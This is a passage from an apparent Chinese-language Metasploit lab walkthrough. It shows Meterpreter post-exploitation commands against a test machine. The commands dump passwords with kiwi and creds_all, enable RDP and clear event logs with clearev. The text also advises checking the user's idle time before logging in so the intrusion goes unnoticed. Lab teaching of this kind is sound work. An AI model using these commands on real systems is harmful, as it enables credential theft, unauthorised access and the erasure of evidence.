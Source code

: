 4.  获取 cmd,出现了编码问题。

```shell
meterpreter > shell
```

![在这里插入图片描述](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677139697-765c777062ba4cfcba0c022a86707a3b.png)

5.  获取用户密码

```shell
meterpreter > load kiwi
Loading extension kiwi...Success.
```

完成进程迁移后:

```shell
meterpreter > creds_all
```

![在这里插入图片描述](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677139697-cded31ac7e925c81b488c30f2760db37.png)

6.  启用远程桌面，配合上一步获取到的密码。

```shell
meterpreter > run post/windows/manage/enable_rdp
```

使用时一般配合查看远程用户的空闲时长，空闲时间长再进行远程登陆，减小被发现的风险。_登录 rdp 会把对方顶掉。_

```shell
meterpreter > idletime
```

![在这里插入图片描述](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677139697-92c74096d4393eceb99b907a9460b25a.png)  
使用 rdesktop 命令远程连接桌面

```shell
root@kali:~# rdesktop 192.168.2.6
```

![在这里插入图片描述](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677139697-befdbf4348fe59add1b0eb60611f22ae.png)  
用上一步获取的账户密码进行登录，登录成功。  
![在这里插入图片描述](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677139697-1be8a5de1dfbf09f7fad9f05f4a38446.png)

7.  清除日志

```shell
meterpreter > clearev
```

清除日志前，靶机的事件查看器是这样的。（记录了大量的事件）  
![在这里插入图片描述](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677139697-eae5422a4d7be4d80c8b963eb95e6d8d.png)  

![在这里插入图片描述](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677139697-0d69800e9388f2cad633407642e582a1.png)  
被清空了~  
![在这里插入图片描述](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677139697-3eb0b27b09ee23637542f84f96bce258.png)  
